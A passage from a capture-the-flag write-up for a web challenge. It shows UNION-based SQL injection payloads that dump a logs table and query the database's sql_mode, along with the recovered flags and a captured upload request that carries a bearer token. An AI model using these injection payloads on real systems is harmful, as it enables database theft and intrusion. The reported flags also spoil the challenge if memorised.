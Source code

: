 Here we are doing a basic UNION injection where we dump every table with the respective column of the database. We use `concat` to concatenate table columns, and `1337` as a delimiter useful to split the columns returned (typically you would use a string, but we could not find a way of doing it with a string), then we use `group_concat` to return every single row of the table in a single row. Given the name, of the challenge we started immediately by dumping the `access_logs` table:

```python
injection("SELECT group_concat(concat(id,1337,ip,1337,url,1337,method,1337,accessed)) FROM access_logs")
```

One of returned record had this value in the URL column: `/api/filesdownloadall.php?flag=WP{pl34se_r3m0v3_l3gacy_stuff}.php`. This let us download the challenge upload directory of the current logged in user: `var/www/html/uploads/928476593`

### **Black Or White - WP{fr0m_bl4ckb0x_2_wh1t3b0x}**

Again, given the challenge description we looked up SQL modes of the mysql instance of the challenge.

```python
c.get_username("admin238\\'", f"OR 1=1 UNION SELECT 1337,9001,(SELECT @@GLOBAL.sql_mode),420,69,42 --")
```

And got this as a result:

```sql
STRICT_TRANS_TABLES,ERROR_FOR_DIVISION_BY_ZERO,NO_AUTO_CREATE_USER,NO_ENGINE_SUBSTITUTION
```

Then we looked at the [documentation](https://mariadb.com/kb/en/sql-mode/).

> ## Strict Mode
>
> A mode where at least one of `STRICT_TRANS_TABLES` or `STRICT_ALL_TABLES` is enabled is called _strict mode_.
>
> With strict mode set (default from [MariaDB 10.2.4](https://mariadb.com/kb/en/mariadb-1024-release-notes/)), statements that modify tables (either transactional for `STRICT_TRANS_TABLES` or all for `STRICT_ALL_TABLES`)
> will fail, and an error will be returned instead. The IGNORE keyword
> can be used when strict mode is set to convert the error to a warning.
>
> With strict mode not set (default in version <= [MariaDB 10.2.3](https://mariadb.com/kb/en/mariadb-1023-release-notes/)),
> MariaDB will automatically adjust invalid values, for example,
> truncating strings that are too long, or adjusting numeric values that
> are out of range, and produce a warning.

In the database there is a files table, and it stores information such as the path of the uploaded files.

This is the request made when uploading files:

```
POST /api/fileupload.php HTTP/1.1
Host: start.wpctf.lan:8806
Accept: application/json, text/plain, */*
Accept-Encoding: gzip, deflate
Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjo5Mjg0NzY1OTMsInVzZXIiOiJhZG1pbjczMjEwMzQ3NDciLCJwYXNzIjoiYXNkIiwiZnVsbF9uYW1lIjoiV1B7UjAwdF9TbTF0aH0iLCJncm91cF9pZCI6IjkyODQ3NjU5MyIsInBlcm1pc3Npb25zIjp7InVwbG9hZCI6IjEiLCJsaXN0RmlsZXMiOiIxIiwiZGVsZXRlRmlsZXMiOiIxIiwibGlzdFVzZXJzIjoiMSIsImRvd25sb2FkIjoiMSJ9fQ.uUmYA5y7PMbl3EFMVahlT3A4hsHhi62E-Ef6zIA9BiI
Content-Type: multipart/form-data; boundary=---------------------------31269189394158100819104461333
Content-Length: 46846
```
